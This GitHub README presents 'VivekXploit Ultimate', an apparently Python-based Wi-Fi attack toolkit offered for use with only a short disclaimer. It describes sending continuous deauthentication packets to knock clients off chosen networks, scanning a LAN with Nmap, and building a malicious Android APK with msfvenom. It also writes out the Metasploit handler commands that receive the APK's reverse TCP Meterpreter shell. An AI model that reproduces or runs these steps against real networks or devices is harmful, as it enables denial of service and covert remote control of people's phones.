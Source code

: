 # VivekXploit_Ultimate_WiFi_Attack_Toolkit
<b>VivekXploit Ultimate is an advanced Python-based Wi-Fi attack toolkit for ethical hackers. It features deauthentication attacks, Nmap network scanning, and Android reverse shell payload generation via Metasploit. Designed for penetration testing with external Wi-Fi adapters in Kali Linux.</b>

# VivekXploit - ULTIMATE Wi-Fi Attack Toolkit

```
__     ___           _    __  __      _       _ _    
 \ \   / (_)_   _____| | __\ \/ /_ __ | | ___ (_) |_  
  \ \ / /| \ \ / / _ \ |/ / \  /| '_ \| |/ _ \| | __|
   \ V / | |\ V /  __/   <  /  \| |_) | | (_) | | |_  
    \_/  |_| \_/ \___|_|\_\/_/\_\ .__/|_|\___/|_|\__|
                                |_|                  
             V i v e k X p l o i t - ULTIMATE
```

## 🔥 Overview

VivekXploit Ultimate is an advanced Python-based Wi-Fi attack toolkit designed for **authorized penetration testing and educational use**. It combines:

* ✅ **Deauthentication (DoS) attacks** on Wi-Fi networks
* ✅ **Nmap scanning** of local networks
* ✅ **Android payload creation** using Metasploit (`msfvenom`)

Created by: **Vivek Dhobale**

## 🚀 Features

| Feature                  | Description                                              |
| ------------------------ | -------------------------------------------------------- |
| 🔺 Deauth Attack         | Scan and disconnect clients from selected Wi-Fi networks |
| 🌐 Nmap Scanner          | Discover all live devices in your local subnet           |
| 📱 Payload Generator     | Create a malicious APK for Android reverse TCP shell     |
| 🔌 Wi-Fi Adapter Support | Works with external adapters in monitor mode             |
| 📂 Log Handling          | CSV files automatically moved to backup folder           |

## ⚙️ Requirements

* OS: **Kali Linux or Parrot OS**
* Python 3.6+
* Root privileges (`sudo`)
* External Wi-Fi adapter (e.g. Alfa AWUS036NHA)
* Tools installed:

  * `airmon-ng`, `airodump-ng`, `aireplay-ng`
  * `nmap`, `msfvenom`

Install Python requirements:

```bash
pip install -r requirements.txt
```

## 📥 Setup & Run

```bash
sudo python3 VivekXploit_Ultimate.py
```

## 🧪 Usage Instructions

### 🔹 Deauthentication Attack

1. Script detects your Wi-Fi adapters
2. Choose interface (e.g., wlan0)
3. Select target from scanned networks
4. Script sends continuous deauth packets

> Press `CTRL+C` to stop attack

---

### 🔹 Nmap Scan (Internal LAN)

* After deauth, select `1` to run network scan:

```
Do you want to run extra tools? (1) Nmap Scan (2) Generate Payload (3) Exit:
```

* Lists live hosts on your network (like 192.168.0.1–255)

---

### 🔹 Metasploit Payload Generator

* Select option `2`
* Enter your **LHOST (your IP)** and **LPORT (e.g., 4444)**
* Output: `vivek_payload.apk`
* Use with Metasploit listener:

```bash
msfconsole
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST <your_ip>
set LPORT <your_port>
exploit
```

---

## 📡 Wi-Fi Adapter

To run monitor mode attacks, you **must use** a compatible external USB Wi-Fi adapter that supports injection (e.g., Alfa AWUS036NHA, TP-Link TL-WN722N v1).

## ⚠️ Legal Disclaimer

> This tool is for **educational and authorized penetration testing only**.
> Do not use it on networks you do not own or have permission to test.

Misuse of this tool can be illegal. The developer is not responsible for any damage caused.

## 👨‍💻 Author

* **Vivek Dhobale**
* GitHub: [github.com/VivekXploit](https://github.com/VivekXploit)
* LinkedIn: [linkedin.com/in/vivek-dhobale-vr](https://www.linkedin.com/in/vivek-dhobale-vr)

---

Made with ❤️ for ethical hackers and learners.
